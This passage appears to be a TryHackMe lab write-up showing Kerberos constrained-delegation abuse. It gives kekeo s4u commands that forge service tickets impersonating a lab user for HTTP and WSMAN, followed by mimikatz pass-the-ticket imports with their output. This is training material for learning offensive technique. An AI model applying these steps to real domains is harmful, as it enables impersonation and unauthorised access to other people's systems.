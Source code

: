 We have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate.  
We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:
<pre>kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

 > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'</pre>

  `/tgt` : Provide TGT that we generated in previous step  
  `/user` : User we want to impersonate - impersonate t1_ account  
  `/service` : Services we want to impersonate using delegation  
  - Generate TGS for the http service
  - Generate TGS for the WSMAN service  

  Run the same command as above but for the WSMAN service:
  <pre>kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc</pre>  

  We now have 2 TGS tickets, we can use Mimikatz to import them:  
  <pre>mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK


mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK</pre>

- Exit from Mimikatz

- Verify that the tickets were imported, run `klist` in command prompt

![Alt text](../../Images/klist.png)  
